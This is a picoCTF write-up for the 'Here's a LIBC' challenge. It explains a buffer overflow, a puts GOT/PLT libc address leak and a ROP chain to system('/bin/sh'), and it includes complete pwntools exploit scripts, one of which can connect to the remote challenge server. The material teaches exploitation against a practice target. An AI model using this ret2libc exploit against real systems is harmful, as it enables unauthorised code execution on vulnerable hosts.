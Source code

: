 # PicoCTF Here's a LIBC

Writeup by SpiffyLich
![test](https://imgur.com/HZsgxNa.jpg)


## Tools Used:
- [Pwndbg](https://github.com/pwndbg/pwndbg)
- [Pwntools](https://docs.pwntools.com/en/stable/)
- [Pwninit](https://github.com/io12/pwninit)
- [Ghidra](https://ghidra-sre.org/)
## Description

Buckle up everyone! While this exploit isnt the most complicated, by virtue of being a libc-leak, it DOES have a lot of moving parts. Sit down with a sandwich and some coffee, cuz this one is going to take a minute!



Initial thoughts: I couldn't get the binary to run initially; I think the libc used was older / out of date. To bypass this, I had to use [pwninit](https://github.com/io12/pwninit), which Auto-magically sets up the binary for us.

According to checksec, the binary in question has NX set (so no free shellcode...)
but, no anonying canaries, and no full ASLR. In other words, while we **cant** put literally whatever we want on the stack and execute it, we **CAN** use whatever happens to be in the binary... including anything it happens to reference ***(cough cough libc)***.
![alt text](image.png)

next up, we'll run it to get an idea of what were dealing with, before opening it up in Ghidra.


![alt text](image-1.png)
![alt text](image-8.png)



before going any further, lets enable core-dumps with
> ulimit -S -c unlimited


This will allow us to see where our target crashed after the fact, by viewing it in gdb. 


Now OK, you annoying program,
How do you handle 270 bytes of nonsense?!

![alt text](image-2.png)
Yeah, not well. it looks like we're dealing with a classic buffer overflow.


We could use pwndbg to get a more precise view of what's going on, but I'll keep my word and we'll take an overhead view in Ghidra.


Opening this guy up in Ghidra,  we take a look at the symbol tree to see if we cant get a little lucky, and hey- there's already an interestingly named function, "do_stuff".


![alt text](image-3.png)

Looking at do_stuff, we can see some interesting... uh, stuff... going on. there's a 112 byte buffer, a scanf function that seems to take-in bytes until it receives a newline, a for-loop that appears to change the case of the first 100 bytes, a puts call to display the results to the screen, as well as an expected return.

Right now, I *expect* we'll overflow the buffer and try and abuse puts(), but we'll see in a bit.

![alt text](image-4.png)

Since we generated a core earlier, lets have a look at it with:

> gdb ./vuln_patched -core ./corefilename

Well, it certainly looks like we crashed at an address that we input...

![alt text](image-5.png)


putting 0x6261616b6261616a into cyclic -l gives us 136. This will be the size of the padding we need, before putting our chosen return address.

Next, I wrote a small script with pwntools to quickly test this all out.

```
from pwn import *

# so we can autosplit our view when using tmux
context.update(terminal=['tmux', 'splitw', '-v'])

# allows us to slip into debug mode if necessary
if  (len(sys.argv) <= 1):
        print("running process as normal...")
        p = process("./vuln_patched")
elif sys.argv[1] == "dbg":
        print("entering debug mode!")
        p = gdb.debug("./vuln_patched", gdbscript='''
init-pwndbg
''')


padding = b'A'* 136
ret = p64(0xdeadbeef)

exploit = padding+ret

p.sendline(exploit)
p.interactive()

```

 0xdeadbeef is chosen as the classic return address, so we can tell that the program returned precisely to the address we want.

![alt text](image-6.png)


Sweet! with the return address in our control, we can execute *whatever we want* related to the binary, with the caveat being that we have to actually **have** said address. 


## Exploit: The Plan

But HOLD UP: theres hardly anything interesting in this binary! True, but since puts() is here, we may have a shot at leaking a libc pointer. More specifically, we'll make use of our old friends: the PLT and GOT.

There's a lot of detail that I dont have the time to cover here, and both the PLT and GOT could probably have a book on them, but the plan is basically this:

1.) We use pwndbg to find the PLT and GOT addresses for puts().
![alt text](image-9.png)

- looks like 0x601018 is our GOT address for puts, 
and 0x400540 is the PLT address. 



2.) We use ropper or rp++ to find ROP gadgets that will allow us to setup registers for arbitrary function calls, allowing us to actually call puts.
![alt text](image-10.png)
these two here will let us setup the first 2 arguments, sweet!
![alt text](image-11.png)

3.) In our code, we CALL the PLT version of puts, and for the argument, we place the address of the dynamic GOT-puts that we found.  this SHOULD leak the address, and tell us where libc is. Overall, our ROP-chain should look something like this:
![alt text](image-13.png)


4.) Were almost done, now we use nm -D on the provided library to find out what the offset of our desired function(s) are. 

I.e: whenever we leak the libc address, to find out where the START of libc is, we will subtract the value in here from that address. in this case, we're leaking puts(), so we'll subtract 0x80a30 from it.
![alt text](image-12.png)

Once we have libc-base and an offset, we can call literally anything IN libc, by just running the above nm command again, and adding our desired functions offset to the found libc-base.

## Exploit: The Execution

So, we can leak a pointer, but how do we grab and use it?

Well, one way is to skip junk data in our buffer in our process,
until we get to where the puts call should be, and then read in the correct # of bytes.

its a little ugly, but I couldn't find another consistent method to work in this case.

After that, we call main(), to restart the program- effectively allowing us to exploit the same vulnerability twice- this time though, we're going to system()




```
from pwn import *

context.update(terminal=['tmux', '.splitw', '-v'])

HOST = "mercury.picoctf.net"
PORT = 23584


if  (len(sys.argv) <= 1):
        print("running process as normal...")
        p = process("./vuln_patched")
elif sys.argv[1] == "dbg":
        print("entering debug mode!")
        p = gdb.debug("./vuln_patched", gdbscript='''
init-pwndbg
''')
elif sys.argv[1] == "remote":
        print("[!] Attempting to start remote session...\n\n")
        p = remote(HOST, PORT)


puts_offset = 0x80a30

puts_PLT = 0x400540

puts_GOT = 0x601018


pop_RDI = 0x400913

pop_RSI = 0x400911

main = 0x400771

ret = 0x40052e


padding = b'A'* 136

exploit = padding+p64(pop_RDI)+p64(puts_GOT)+p64(puts_PLT)+p64(main)

# clear out the inital banner message
banner = p.recvuntil('sErVeR!\n')

# now that the message is gone, we're free to send out exploit...
p.sendline(exploit)

# theres gonna be a lot of junk sent back at us, so clean that up...
banner2 = p.recvline()

# grab the next 6 bytes, they should be our addr...
# we'll just roughly format them  to work.
leaked = u64(p.recv(6)+b"\x00\x00")



# now we can calculate the offset....
libc_base = (leaked - puts_offset)

# again, found with nm command
system = libc_base + 0x4f4e0

binsh_offset = 0x1b40fa

bin_sh = libc_base + 0x1b40fa



exploit2 = padding+p64(ret)+p64(pop_RDI)+p64(bin_sh)+p64(system)

p.sendline(exploit2)
print("Leaked Addr: " + hex(leaked))
print("Libc Base: " + hex(libc_base))
p.interactive()

```

In my case, I made an exploit2 string, where I calculated where system() should be with nm -D, and I used vmmap in pwndbg to find "/bin/sh" in libc.

with both of these in place, I just needed a basic ROP chain and....
![alt text](image-14.png)
We got our flag!!

